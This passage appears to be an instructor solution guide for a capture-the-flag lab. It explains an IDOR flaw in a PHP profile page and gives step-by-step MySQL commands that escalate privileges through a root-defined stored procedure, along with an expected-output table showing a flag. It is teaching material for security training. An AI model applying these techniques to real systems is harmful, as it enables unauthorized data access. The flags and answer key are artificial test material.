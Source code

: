 **Flag:** From `flags.json` challenge ID 6 (in user_id=2's secret_key)

**Vulnerability:**
- `profile.php` uses `$_GET['user_id']` directly in SQL
- No authorization check
- Classic IDOR (Insecure Direct Object Reference)

**Common Mistakes:**
- Only check user_id=1
- Don't notice the user_id parameter in URL
- Think they need SQLi (it's simpler than that!)

**Teaching Moment:**
- Horizontal vs Vertical privilege escalation
- IDOR is OWASP Top 10
- Always implement authorization checks

---

#### Challenge 7: Vertical Privilege Escalation via Stored Procedures (250 pts)

**Objective:** Call admin-only stored procedure that runs with root privileges

**Solution:**

```bash
mysql -h localhost -P 3306 -u ctf_user -p

# Step 1: List stored procedures
SHOW PROCEDURE STATUS WHERE Db = 'ctf_database';

# Step 2: Check procedure definition
SHOW CREATE PROCEDURE get_admin_flag;

# Key finding: DEFINER=root@localhost SQL SECURITY DEFINER
# This means it runs with ROOT privileges!

# Step 3: Call the procedure
CALL get_admin_flag();
```

**Expected Output:**
```
+---------------------------+--------------------------------+
| admin_flag                | message                        |
+---------------------------+--------------------------------+
| FLAG{17bdca681327ccef9511}| Privilege Escalation Successful|
+---------------------------+--------------------------------+
```

**Flag:** From `flags.json` challenge ID 7

**Vulnerability:**
- Stored procedure has `DEFINER=root`
- Runs with elevated privileges
- Low-privilege user can execute it
